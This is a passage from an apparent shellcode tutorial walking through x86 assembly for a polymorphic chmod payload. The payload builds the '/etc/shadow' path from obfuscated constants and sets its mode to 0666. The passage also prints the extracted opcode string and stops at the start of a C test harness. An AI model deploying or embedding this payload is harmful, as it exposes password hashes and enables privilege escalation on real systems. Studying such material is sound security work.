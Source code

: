 666 in ecx:

```asm
	push word 0666Q
	pop ecx
```

After, just exec the syscall (In addition, the exit syscall is executed at the end):

```asm
	int 0x80
	push byte 1
	pop eax
	int 0x80

```

##### Polymorphic Shellcode 

My polymorphic shellcode works same but it is generating the pathname on the way.

Saving the sys\_chmod in eax:

```asm
	xor edx, edx
	xor eax, eax
	add eax, 0xf
```

Generating the pathname:

```asm
	mov ecx, 0x11
	add ecx, 0x66
	push ecx
	add ecx, 0x6eed
	push cx
	add ecx, 0x616803cb
	push ecx
	push 0x6374652f
	mov ebx, esp
```

Set the mode and run the syscall:

```asm
	xor ecx, ecx
	mov cx, 0x1b6
	int 0x80
	push byte 1
	pop eax
	int 0x80
```


Compile and run:

```bash
$ nasm -f elf32 chmod.nasm -o chmod.o
$ ld chmod.o -o chmod
$ objdump -d ./chmod|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xd2\x31\xc0\x83\xc0\x0f\x89\xd1\x52\xb1\x11\x80\xc1\x66\x51\x66\x81\xc1\xed\x6e\x66\x51\x81\xc1\xcb\x03\x68\x61\x51\x68\x2f\x65\x74\x63\x89\xe3\x31\xc9\x66\xb9\xb6\x01\xcd\x80\x6a\x01\x58\xcd\x80"
$ cat chmod-new.c 
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] =
```
